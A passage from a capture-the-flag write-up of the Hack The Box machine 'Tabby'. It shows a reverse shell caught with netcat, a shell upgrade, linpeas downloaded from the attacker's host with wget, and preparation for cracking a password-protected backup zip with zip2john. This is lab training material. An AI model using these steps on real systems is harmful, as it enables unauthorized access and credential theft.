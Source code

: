 ```


Visiting [http://megahosting.htb:8080/shell/](http://megahosting.htb:8080/shell/)will trigger a reverse shell to my listener

![](/img/tabby/2020-12-09_07-32.png)

![](/img/tabby/2020-12-09_07-34.png)


The shell is pretty rubbish, i'm going to spend a little time getting some more functionality.

```
python3 -c 'import pty;pty.spawn("bash")'

tomcat@tabby:/var/lib/tomcat9$ ^Z
 [1]+ Stopped nc -lnvp 443
 
 kali@kali# stty raw -echo; fg
 
 nc -lnvp 443
    reset
 Terminal type? screen |
```

Now there is a nice shell!

![](/img/tabby/2020-12-09_07-46.png)

**Vulnerability Explanation:**

Directory Traversal / Service misconfiguration.

#### Privilege Escalation

Starting with my usual method of enumeration. I am going to open up a temporary webserver on my host so I can transfer files to the target.

``` sudo python -m SimpleHTTPServer 80 ```

![](/img/tabby/2020-12-09_07-51.png)

Now, I am going to download linpeas.sh on to the target using wget.

``` wget http://10.10.14.60/linpeas.sh ```

I am going to make the script executable and then run it.

![](/img/tabby/2020-12-09_07-54.png)

Navigating to /var/www/html/files shows some interesting files, primarily because there is a backup.zip here, and an inclination that it could have some good info inside, after all the other empty folders in /files look interesting enough.

As this is just in a public directory, I have just used my browser to download and I have checked the md5sum against the md5sum on the box.

![](/img/tabby/2020-12-09_08-19.png)

Turns out this is a password protected zip, time to crack.

First I need to send the zip file to zip2john so it is in a crackable format.

``` zip2john 16162020_backup.zip > backup.zip.john ```

```